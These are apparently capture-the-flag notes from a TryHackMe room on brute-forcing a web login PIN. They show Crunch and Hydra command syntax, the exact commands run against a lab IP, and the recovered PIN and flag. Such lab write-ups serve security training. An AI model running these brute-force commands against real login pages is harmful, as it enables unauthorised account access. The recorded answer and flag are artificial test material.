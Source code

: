 <h3> Hydra/Crunch </h3>
<b>Background:</b>
-Crunch generates a list of password based on the criteria you give it 
```
crunch <min> <max> <characterSet> -o <outputFile>
```
Used command:
```
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```

-Hydra is a password cracker
```
hydra -l <loginName> -P <passwordFile> -f (stopsWhenPasswordFound) -v (verbose) <ip> http-post-form -s <portNum> "/login.php:pin=^PASS^:Access denied"
```

Used command:
```
hydra -l '' -P 3digits.txt -f -v 10.10.116.246 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

<b>Question:</b>
-Using crunch and hydra, find the PIN code to access the control system and unlock the door. Password: 6F5 Flag: THM{pin-code-brute-force}